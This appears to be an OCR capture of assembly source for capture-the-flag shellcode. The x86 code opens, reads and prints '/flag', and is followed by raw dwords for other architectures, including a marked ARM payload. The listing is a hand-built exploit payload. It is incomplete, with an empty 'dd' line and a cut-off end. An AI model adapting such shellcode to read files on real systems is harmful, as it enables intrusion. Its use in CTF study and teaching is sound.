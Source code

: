                         int    0x80
                        mov    esi, eax

                        mov    edi, esp
                        sub    edi, 0x200
                        xor    eax, eax
                        cld
                        mov    ecx, 0x200
                        rep    stosb
                        mov    edi, esp
                        sub    edi, 0x200

                        mov    edx, 80
                        mov    ecx, edi
                        mov    ebx, esi
                        mov    eax, 3
                        int    0x80

                        mov    edx, 80
                        mov    ecx, edi
                        xor    ebx, ebx
                        mov    eax, ebx
                        inc    ebx
                        mov    eax, 4
                        int    0x80
                        xor    ebx, ebx
                        mov    eax, 1
                        int    0x80


flag:                   db      "/flag", 0
buffer:
                        times 0x104 - ($-$$) db 0xFF
                        dd       0x00042138
                        dd       0x78F2DE7F
                        dd       0x58000048
                        dd       0x7822847C
                        dd       0xA602687C
                        dd       0x05000038
                        dd       0x02000044
                        dd       0x7822847C
                        dd       0x00008138
                        dd       0x782AA57C
                        dd       0x6400A538
                        dd       0x03000038
                        dd       0x02000044
                        dd       0x782AA57C
                        dd       0x6400A538
                        dd       0x7822847C
                        dd       0x00008138
                        dd       0x781A637C
                        dd       0x01006338
                        dd       0x04000038
                        dd       0x02000044
                        dd       0x781A637C
                        dd       0x01000038
                        dd       0x02000044
                        dd       0xADFFFF4B
                        db       "/flag", 0
                        times 0x200 - ($-$$) db 0xFF
                        align	4
                        ;arm shellcode -&gt; open in IDA and CPU set to ARM -&gt; goto 0x200 (little endian)
                        dd
                        dd       0xE28DD064
                        dd       0xE28DD064
                        dd       0xE28DD064